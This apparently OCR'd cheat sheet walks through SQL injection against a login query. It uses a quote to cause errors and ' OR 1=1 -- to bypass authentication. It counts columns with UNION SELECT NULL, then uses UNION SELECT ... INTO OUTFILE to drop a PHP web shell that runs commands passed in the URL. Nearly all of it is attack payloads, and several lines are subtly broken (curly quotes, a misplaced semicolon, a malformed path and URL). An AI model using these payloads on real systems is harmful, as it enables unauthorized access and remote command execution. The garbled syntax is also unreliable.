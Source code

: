 # SQL Injection

* Cause Error on the Web Application by input quote '

```
SELECT * FROM users WHERE username = ''' AND password = ''

```





* Data Exfiltration by input ' OR 1=1 --



```
SELECT * FROM users WHERE username = '' OR 1=1--' AND password = ''

```

* Getting Shell

First check the number of column with NULL or 1



```
SELECT * FROM users WHERE username = 'a' UNION SELECT NULL, NULL; --' AND password = ''
```

Use the INTO FILE to create a php file in the web server

```
SELECT * FROM users WHERE username = 'a' UNION SELECT “<? system($_REQUEST[‘cmd’]); ?>”, NULL; INTO OUTFILE 'var/www/cmd.php'--' AND password = ''
```

Access the web page 



```
http://yourIPaddress/cmd.php?=[command]
```









